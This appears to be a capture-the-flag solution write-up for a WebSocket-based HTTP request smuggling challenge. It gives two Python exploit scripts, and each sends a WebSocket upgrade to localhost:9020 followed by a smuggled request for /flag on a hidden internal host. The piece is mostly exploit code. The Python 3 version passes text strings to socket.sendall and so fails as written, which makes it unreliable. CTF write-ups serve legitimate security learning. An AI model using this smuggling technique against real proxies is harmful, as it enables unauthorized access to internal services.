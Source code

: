 
<p align="center">
<img width="250" src="../static/solution.png">
</p>

 This one is a more difficult variant of HTTP request smuggling. To access the target API and Page in the hidden network we need to write an Exploit. You can use the one below (with Python2...pain or gain)

  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
```


<p align="center">
<img width="600" src="../static/haha.gif">
<br> Python 2 ... is not dead yet - anyway was just kidding. <br> The Python 3 variant is below:
</p>

```python
#!/usr/bin/env python3
import socket

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: localhost:9020
Sec-WebSocket-Version: 13
Upgrade: websocket
Connection: Upgrade

""".replace('\n', '\r\n')


req2 = """GET /flag HTTP/1.1
Host: flask.net:5000

""".replace('\n', '\r\n')

def main(uri):
    host, port = uri.split(':')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, int(port)))

        sock.sendall(req1)
        data = sock.recv(4096)
        print(data)

        sock.sendall(req2)
        data = sock.recv(4096)
        data = data.decode(errors = 'ignore')

        print(data)

        sock.shutdown(socket.SHUT_RDWR)

if __name__ == "__main__":
    main('localhost:9020')
```


